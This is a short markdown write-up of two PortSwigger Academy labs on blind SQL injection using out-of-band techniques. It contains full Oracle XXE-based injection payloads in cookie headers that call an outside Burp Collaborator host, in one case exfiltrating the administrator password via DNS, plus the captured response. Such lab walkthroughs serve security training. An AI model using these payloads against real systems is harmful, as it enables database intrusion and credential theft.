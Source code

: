 # ***4.Lab: Blind SQL injection with out-of-band interaction***
https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band
 The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 

**Burp colaborator:**
mj96kitkkcyzl6et8txxik1psgyhm6.oastify.com

try different payloads from the cheet sheet:

> GET /filter?category=Pets HTTP/1.1
> Cookie: TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//sfbi7le89d6u9c0nb6siq3hxwo2hq6.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=lSieWhubfLdBEKLv0WAuxT1RMblaQfH9






# ***5. Lab: Blind SQL injection with out-of-band data exfiltration***
https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration

 The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

**Burp colaborator:**
9nxzf2mphuebht84jn0zykpe45azyo.oastify.com

try payloads from cheet sheet. enter the query to get padministrator password and use the colaborator address:
> '+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.9nxzf2mphuebht84jn0zykpe45azyo.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

**request:**
> GET /filter?category=Gifts HTTP/1.1
> Cookie: TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.9nxzf2mphuebht84jn0zykpe45azyo.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--; session=1syUfEJVhh2hm0I4Fb8wQyutHwd285D2

**response in Burp Colaborator:**
> The Collaborator server received a DNS lookup of type AAAA for the domain name i8i90aeaq5jj5pdpln6m.9nxzf2mphuebht84jn0zykpe45azyo.oastify.com.

password:**i8i90aeaq5jj5pdpln6m**

# lab solved


